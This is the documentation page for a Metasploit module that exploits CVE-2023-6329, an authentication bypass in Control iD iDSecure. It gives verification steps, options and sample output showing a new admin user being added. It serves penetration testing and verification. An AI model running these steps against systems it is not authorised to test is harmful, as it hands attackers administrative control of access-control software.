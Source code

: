 ## Vulnerable Application

This module exploits an improper access control vulnerability (CVE-2023-6329) in Control iD iDSecure <= v4.7.43.0. It allows an
unauthenticated remote attacker to compute valid credentials and to add a new administrative user to the web interface of the product.

The advisory from Tenable is available [here](https://www.tenable.com/security/research/tra-2023-36), which lists the affected version
4.7.32.0. According to the Solution section, the vendor has not responded to the contact attempts from Tenable. While creating this MSF
module, the latest version available was 4.7.43.0, which was confirmed to be still vulnerable.

## Testing

The software can be obtained from the [vendor](https://www.controlid.com.br/suporte/idsecure).

Deploy it by following the vendor's [documentation](https://www.controlid.com.br/docs/idsecure-en/).

**Successfully tested on**

- Control iD iDSecure v4.7.43.0 on Windows 10 22H2
- Control iD iDSecure v4.7.32.0 on Windows 10 22H2

## Verification Steps

1. Deploy Control iD iDSecure v4.7.43.0
2. Start `msfconsole`
3. `use auxiliary/admin/http/idsecure_auth_bypass`
4. `set RHOSTS <IP>`
5. `run`
6. A new administrative user should have been added to the web interface of the product.

## Options

### NEW_USER
The name of the new administrative user.

### NEW_PASSWORD
The password of the new administrative user.

## Scenarios

Running the module against Control iD iDSecure v4.7.43.0 should result in an output
similar to the following:

```
msf6 > use auxiliary/admin/http/idsecure_auth_bypass
msf6 auxiliary(admin/http/idsecure_auth_bypass) > set RHOSTS 192.168.137.196
[*] Running module against 192.168.137.196

[*] Running automatic check ("set AutoCheck false" to disable)
[*] Version retrieved: 4.7.43.0
[+] The target appears to be vulnerable.
[+] Retrieved passwordRandom: <redacted>
[+] Retrieved serial: <redacted>
[*] Created passwordCustom: <redacted>
[+] Retrieved JWT accessToken: <redacted>
[+] New user 'h4x0r:Sup3rS3cr3t!' was successfully added.
[+] Login at: https://192.168.137.196:30443/#/login
[*] Auxiliary module execution completed

```
